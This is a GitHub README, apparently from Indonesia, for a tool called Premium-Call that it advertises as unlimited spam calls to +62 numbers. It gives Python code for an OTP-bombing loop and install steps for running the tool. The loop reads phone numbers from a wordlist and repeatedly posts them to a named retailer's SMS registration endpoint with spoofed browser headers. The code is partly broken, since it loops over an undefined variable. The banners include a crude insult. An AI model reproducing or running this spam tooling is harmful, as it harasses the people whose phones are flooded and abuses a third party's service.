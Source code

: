 # Premium-Call Tools
<p align="center">
<img src="https://img.shields.io/static/v1?label=Author&color=green&message=Dusttale &logo=Acclaim&logoColor=white&style=for-the-badge"><br>
Tools Spam Call Unlimited (+62)
https://t.me/SariiRooti
</p>
<p align="center">
  <a href="https://github.com/AmmarrBN"><img src="http://readme-typing-svg.herokuapp.com?color=FFFFFF&center=true&vCenter=true&multiline=false&lines=Minimal+Kasi+Star+lah+kontol+!" alt="UwU">
</p>

## How To Create Non Stop With Python
<details open>
  <summary><strong> Non Stop/Reapeat </strong></summary>

  ```bash
  Example:
  import time

  repeat=input("Your Input: ")
  while True:
        print (repeat)
        time.sleep(0.5)
  ```
  </details>

## How To Create Massive?
<details open>
  <summary><strong> Non Stop/Reapeat </strong></summary>

  ```bash
  Example:
  import os,sys,time #default module python
  import requests

  def massive():
  	try:
  		wordlist=open('wordlist.txt','r').readlines()
  		for line in gas:
  			strip=line.strip()
  			post=requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":strip})).text
  			print (post)
  			time.sleep(10) # You are free to set the time to a few seconds

  ```
  </details>

# Info
<p align="center">
  <a href="https://github.com/AmmarrBN"><img src="http://readme-typing-svg.herokuapp.com?color=FFFFFF&center=true&vCenter=true&multiline=false&lines=Decode/Recode?+Ampas+🚮" alt="UwU">
</p>

<details open>
  <summary><strong> Install Package + Run Script (AmmarrBN)</strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install python
  pkg install git
  pkg install python2
  git clone https://github.com/AmmarrBN/Premium-Call
  cd Premium-Call
  pip install -r requirements.txt
  python call.py
  ```
  </details>
